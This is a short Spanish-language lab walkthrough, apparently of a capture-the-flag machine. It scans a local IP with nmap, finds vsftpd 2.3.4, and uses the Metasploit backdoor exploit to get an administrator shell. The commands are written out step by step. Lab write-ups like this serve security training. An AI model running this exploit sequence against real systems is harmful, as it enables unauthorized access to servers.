

Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```


Una vez tenemos el resultado del escaneo de puertos abiertos y de servicios asociados, vamos a ver si tiene algun exploit en esta version.
```
searchsploit vsftpd 2.3.4
```


Podemos ver que el segundo exploit está añadido al framework de metasploit. Entonces los vamos a usar para explotarlo y generarnos una shell.
```
msfconsole -q
```

```
search vsftpd 2.3.4
```

```
use 0
```

```
set rhosts 172.17.0.2
```

```
exploit
```


Hemos podido ver que hemos accedido directamente como administrador.